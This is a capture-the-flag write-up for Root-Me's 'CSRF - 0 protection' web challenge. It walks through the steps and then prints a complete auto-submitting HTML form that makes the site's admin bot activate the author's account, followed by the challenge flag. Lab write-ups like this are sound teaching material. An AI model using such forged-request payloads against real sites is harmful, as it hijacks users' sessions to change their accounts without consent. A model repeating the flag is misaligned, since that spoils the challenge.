 # CSRF - 0 protection

**Point**: 35 Points 

## Solution:

This is a basic CSRF vulnerability. Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159604050-ebe23dce-fbd6-4f24-9377-006d78f291fb.png" ></p>

Only **admin** can do this action. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605145-6f1167f6-4b58-4b74-bac5-cba9448f3a1f.png" ></p>

This meet requirements for CSRF:
- Only **cookie** use to identify user
- **Origin** and **Referer**. We use form with POST request to send data, we can bypass this

We could make **administrator** do the activation for us. Constructing a auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605827-cfb26c6c-f62d-4864-a8d2-a7010b0ee6ee.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set an `id=form` for easy **querySelector**, there's 1 form so we can confidently name any id  
- Set `action` to "http://challenge01.root-me.org/web-client/ch22/?action=profile" for fixed path, we can "POST" data no matters the place(URL) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Your email: khangtictoc@gmail.com (arbitrary string)
Comment:

```html
<html>
  <body>
      <form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" id="form" enctype="multipart/form-data">
		    <div class="form-group">
		    <label>Username:</label>
		    <input type="text" name="username" value="khangtictoc">
		    </div>
		    <br>		
		    <div class="form-group">
		    <label>Status:</label>
		    <input type="checkbox" name="status" checked>
		    </div>
		    <br>	
        <button type="submit">Submit</button>
	    </form>
    <script>document.getElementById("form").submit(); </script>
    <body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159609361-00cc5132-5e08-4e9b-a98d-3f58e733f6ea.png" ></p>

Flag: **Csrf_Fr33style-L3v3l1!**
